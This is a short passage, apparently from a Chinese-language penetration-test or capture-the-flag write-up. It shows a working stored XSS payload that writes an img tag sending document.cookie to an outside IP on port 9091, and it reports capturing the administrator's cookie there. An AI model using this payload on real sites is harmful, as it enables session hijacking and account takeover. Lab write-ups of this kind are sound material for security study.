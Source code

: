 ![upload successful](./images/pasted-894.png)

成功弹窗，留一个偷管理员cookie的xss语句，并在本地启动一个`python m`服务器用来接收cookie
```xss
<script>
document.write('<img src=\"http://11.1.12.155:9091/?'+document.cookie+'\"/>')
</script>
```

成功接收到cookie
![upload successful](./images/pasted-897.png)
